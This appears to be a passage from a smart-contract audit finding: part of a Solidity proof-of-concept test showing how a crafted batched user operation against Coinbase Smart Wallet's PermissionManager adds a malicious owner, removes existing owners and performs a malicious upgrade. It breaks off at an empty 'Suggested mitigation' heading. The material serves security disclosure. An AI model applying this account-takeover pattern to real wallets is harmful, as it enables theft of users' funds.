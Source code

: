 ```solidity
        // calls == [<ValidBeforeCalls>, <ExecuteBatch(<AddMaliciousOwnerCall>,<RemoveExistingOwner0>,<MaliciousUpgrade>,<RemoveExistingOwner1>)>]
        calls[1] = CoinbaseSmartWallet.Call(pivotWallet, 0, nestedExecuteBatchData);

        userOp.callData = abi.encodeWithSelector(
            CoinbaseSmartWallet.executeBatch.selector,
            calls
        );

        return userOp;
    }

    function _createPermissionWithApproval(MockCoinbaseSmartWallet smartAccount) internal returns (PermissionManager.Permission memory permWithApproval) {
        permWithApproval = _createPermission(smartAccount);

        bytes32 permissionHash = permissionManager.hashPermission(permWithApproval);
        bytes32 replaySafeHash = smartAccount.replaySafeHash(permissionHash);

        // user approves a permission
        bytes memory ownerSig = _getSignature(replaySafeHash, ownerPk);
        bytes memory approval = smartAccount.wrapSignature(0, ownerSig);
        permWithApproval.approval = approval;
    }

function _createPermission(MockCoinbaseSmartWallet smartAccount) internal returns (PermissionManager.Permission memory) {
        return PermissionManager.Permission({
            account: address(smartAccount),
            chainId: block.chainid,
            expiry: type(uint48).max,
            signer: abi.encode(permissionSigner),
            permissionContract: address(successPermissionContract),
            permissionValues: hex"",
            verifyingContract: address(permissionManager),
            approval: hex""
        });
    }

function _getSignature(bytes32 digest, uint256 privateKey) internal pure returns (bytes memory) {
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKey, digest);
        return abi.encodePacked(r, s, v);
    }


    function _etchEntrypoint() internal {
        vm.etch(entrypoint, ENTRYPOINT_RUNTIME_BYTECODE);
    }
```

## Suggested mitigation
